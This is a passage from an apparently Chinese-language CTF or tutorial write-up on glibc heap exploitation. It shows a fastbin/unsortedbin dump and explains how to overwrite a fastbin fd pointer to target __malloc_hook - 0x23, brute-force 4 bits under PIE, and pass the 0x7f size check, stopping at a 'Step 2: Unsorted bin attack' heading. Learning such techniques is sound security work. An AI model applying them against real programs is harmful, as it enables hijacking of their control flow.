 bins的结构为：

```
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x555555757000 —▸ 0x555555757100 —▸ 0x7ffff7bcdbf8 (main_arena+216) ◂— 0x7ffff7bcdbf8
0x80: 0x0
unsortedbin
all: 0x555555757170 —▸ 0x7ffff7bcdb78 (main_arena+88) ◂— 0x555555757170 /* 'pquUUU' */
smallbins
empty
largebins
empty
```

之后，我们就可以将0x555555757100（此时实际上并不是freed chunk）的fd指针修改为malloc_hook - 0x23。但是由于开启了PIE，因此需要爆破4个比特位，即16选1。

<font color=red>
注意：PIE会对地址进行随机化处理，但是一页之内的地址还是一样的，也就是说，开启和不开启PIE时地址的最低12bit是完全相同的。我们可以获取libc中malloc_hook的相对地址，其低12bit可以获得，但覆盖是整个字节覆盖，因此我们需要猜解随机化地址的倒数第2低字节中的高4位。
</font>

覆盖地址为0x555555757100的chunk的fd指针的低2字节，如果爆破成功，后面连续分配两个0x70大小chunk后再分配一个即将fastbin挟持到__malloc_hook。

这是__malloc_hook前面一部分内存空间的情况。

|addr|+0|+1|+2|+3|+4|+5|+6|+7|
|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|
|0x7ffff7bcdae8|00|00|00|00|00|00|00|00|
|0x7ffff7bcdaf0(_IO_wide_data_0+304)|60|c2|bc|f7|ff|<font color=red>7f</font>|<font color=red>00</font>|<font color=red>00</font>|
|0x7ffff7bcdaf8|<font color=red>00</font>|<font color=red>00</font>|<font color=red>00</font>|<font color=red>00</font>|<font color=red>00</font>|00|00|00|
|0x7ffff7bcdb00(__memalign_hook)|a0|ee|88|f7|ff|7f|00|00|
|0x7ffff7bcdb08(__realloc_hook)|70|ea|88|f7|ff|7f|00|00|
|0x7ffff7bcdb10(__malloc_hook)|00|00|00|00|00|00|00|00|

我们现在解释为什么要将地址挟持到__malloc_hook - 0x23处。

<font color=red>
fastbin的重新分配会进行一个检查：后面一个fastbin的大小是否在fastbin可以容纳的chunk的大小范围之内。因此我们需要转移到一个这样一个地址，这个地址后面对应的size域有一个0x20~0x80的值。看到上面的表，我们想借用7f。如何借用？注意到0x7ffff7bcdaf5处有一个7f（这个7f一般是固定不变的），而且这之后有10个字节都是0，如果我们从这里开始读8个字节，那值就正好是0x7f，不会超过0x80。所以考虑将0x7ffff7bcdaed作为chunk的头部，这样读取到的size就可以通过检查。
</font>

## Step 2: Unsorted bin attack

